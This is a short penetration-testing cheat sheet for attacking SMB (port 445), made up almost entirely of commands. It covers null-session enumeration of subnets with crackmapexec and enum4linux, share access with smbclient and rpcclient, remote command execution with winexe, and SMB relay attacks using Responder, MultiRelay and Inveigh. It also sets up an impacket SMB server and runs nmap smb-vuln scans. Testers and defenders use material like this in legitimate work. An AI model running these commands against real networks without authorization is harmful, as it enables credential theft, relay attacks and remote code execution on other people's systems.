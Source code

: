 # 445 - SMB

## Check for null sessions

```
crackmapexec smb 192.168.120.0/24 10.0.0.0/23 -u '' -p ''
```

```
enum4linux <ip>
```

WinscanX - windows tool: [https://packetstormsecurity.com/files/84199/WinScanX-Password-Utility.html](https://packetstormsecurity.com/files/84199/WinScanX-Password-Utility.html)

## Connecting to SMB Shares

### List SMB shares

```
smbclient -L [IP]
```

### Connect to smb share

```
smbclient \\\\[ip]\\[share name]
```

`rpcclient -U "" -N [ip]`

`enum4linux -a <ip>`

```
/usr/bin/winexe -U mad01/user123%abcABC1234 //172.18.2.50 ipconfig
```

## SMB Relay

### MultiRelay.py

For SMB Relay to be possible, you must turn off SMB and HTTP within the responder config file (you can change it back when you have finished)

Set responder.conf to:

![](<../../.gitbook/assets/image (5) (1).png>)

Then run responder:

```
sudo python3.9 /usr/share/responder/Responder.py -I eth0 -w -f -v
```

Then run the following in another terminal session

```
sudo python3.9 /usr/share/responder/tools/MultiRelay.py -t <target_IP> -u ALL
```

### Inveigh Relay

Session attack requires SMB tools from Invoke-TheHash

{% embed url="https://github.com/Kevin-Robertson/Invoke-TheHash" %}

```
Invoke-InveighRelay -ConsoleOutput Y -Target 10.0.2.110 -Command "...."
```

## Create an SMB Share

```
sudo impacket-smbserver share . -smb2support
```

## Scan for common vulns

`nmap --script smb-vuln* -p 139,445`

